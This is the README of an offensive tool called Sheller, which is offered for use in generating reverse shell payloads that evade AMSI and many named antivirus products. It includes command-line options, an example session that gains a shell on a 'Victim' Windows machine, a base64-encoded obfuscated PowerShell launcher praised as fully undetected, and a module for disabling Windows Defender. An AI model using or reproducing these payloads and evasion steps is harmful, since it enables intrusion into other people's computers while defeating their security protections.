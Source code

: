 # Sheller

Sheller is a Windows Post Exploitation Tool to bypass all known Anti-Malware Scanner Interfaces including Defender, Bitdefender, Kaspersky, McAfee, NANO-Antivirus, Kingsoft, Avast, Avira and many more.



For use, python3 and powershell (Windows) or pwsh (Linux) are required, the script supports Windows and Linux distribution.
The module sheller is to gain reverse shell to the victims device, providing several amsi bypass modules such as encoding, chunking and var randomization.
There is a module to disable any windows defender antivirus feature if executed with admin privileges too.
# Getting started
```
root@lukeproducts:~/Sheller# python3 sheller.py

Copyright LukeProducts 2022, all rights reserved
 ┌──────────────────────────────────────┐       
 │                   ▼         ##       │       
 │ ┌─────────────────┘    ┌────##───┐   │       
 │ │AMSI Bypass Tool      │    ##   │   │       
 │ └──────────────────────┘    ##   └─► │       
 │                             ##       │       
 │ © Copyright by LukeProducts ##       │       
 └──────────────────────────────────────┘       


usage: a.py [-h] [-s SHELLOUTNAME] [-avkill ANTIVIRUSKILL] [-lh LOCALHOST] [-ph PAYLOADHOST] [-pp PAYLOADPORT]
            [-lstp LISTENPORT] [-lp LOCALPORT] [-b64] [-ch] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLOUTNAME, --shelloutname SHELLOUTNAME
                        Reverse Shell. Value: fileoutputname. Requires: [-lh] [-lp], optional: [-b64] [-ch] [-v]
  -avkill ANTIVIRUSKILL, --antiviruskill ANTIVIRUSKILL
                        script to deactivate AV of victim if executed with admin privileges. Optional flag: [-b64]
                        [-ch]
  -lh LOCALHOST, --localhost LOCALHOST
                        host for payload ("lh" for automatically assign host to this systems address)
  -ph PAYLOADHOST, --payloadhost PAYLOADHOST
                        host to connect to
  -pp PAYLOADPORT, --payloadport PAYLOADPORT
                        port to to connect to
  -lstp LISTENPORT, --listenport LISTENPORT
                        port to listen on with netcat
  -lp LOCALPORT, --localport LOCALPORT
                        port for payload (4 digit number recommended)
  -b64                  encodes payload to base64
  -ch                   chunks up base64 encoded string (chunking probability in CHUNK_PROBABILITY)
  -v, --varencode       changes all variables names to an random 10 hex digit encoded into VAR_ENCODING encoding
                        type (default is md5)
  ```


# Example
```
root@lukeproducts:~/Sheller# python3 sheller.py -s xy.bat -lh lh -lp 4444 -b64 -ch -v

Copyright LukeProducts 2022, all rights reserved
 ┌──────────────────────────────────────┐       
 │                   ▼         ##       │       
 │ ┌─────────────────┘    ┌────##───┐   │       
 │ │AMSI Bypass Tool      │    ##   │   │       
 │ └──────────────────────┘    ##   └─► │       
 │                             ##       │       
 │ © Copyright by LukeProducts ##       │       
 └──────────────────────────────────────┘       


Host set to "LukeProductsKali" (192.168.0.129)

[*] Successfully exported payload to "xy.bat" with encoding base64 and chunked up 87 times!
listening on [any] 4444 ...
connect to [192.168.0.129] from (UNKNOWN) [192.168.0.129] 1716
Microsoft Windows [Version 10.0.19042.1415]
(c) Microsoft Corporation. All rights reserved.

D:\Victim>
```

### xy.bat: <a href="https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1">fully undetected AMSI Virustotal Scan Result</a>
```
powershell /w 1 /C "$a=[scriptblock]::create([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('ZgB1AG4AYwB0AGkAbwBuACAAYwBsAGUAYQBuAHUAcAAgAHsAaQBm'+'ACAAKAAkADMAYwBhADQAYgBhADUANgA2AGMAZgBlAGQANQBjADEAYwA1ADMAMQBmAGQAMgA1ADkAYgBjAGYAMAA5ADcAOAAuAEMAbwBuAG4AZQBjAHQAZQBkACAALQBlAHEAIAAkAHQAcgB1AGUAKQAgAHsAJAAzAGMAYQA0AGIAYQA1ADYANgBjAGYAZQBk'+'ADUAYwAx'+'...')));Invoke-Command -ScriptBlock $a"
```
[![](https://user-images.githubusercontent.com/73026669/150165109-71b9f841-3b8e-42bd-a502-5d666244eaaf.png)](https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1)
# error sources
If you use Windows to run this script, make sure to turn off Defenders RealTimeProtection for this script, because this causes program truncations multiple times. The reason for that is that AMSI flaggs sheller at runtime.


[![Build Status](https://user-images.githubusercontent.com/73026669/110617122-9c75ad00-8195-11eb-9ba5-422356072776.png)](https://github.com/LukeProducts)


###
DISCLAIMER: THIS IS FOR EDUCATIONAL PURPOSES ONLY! 
NO LIABILITY FOR ILLEGAL USE IS ASSUMED!
###
© Copyright by LukeProducts

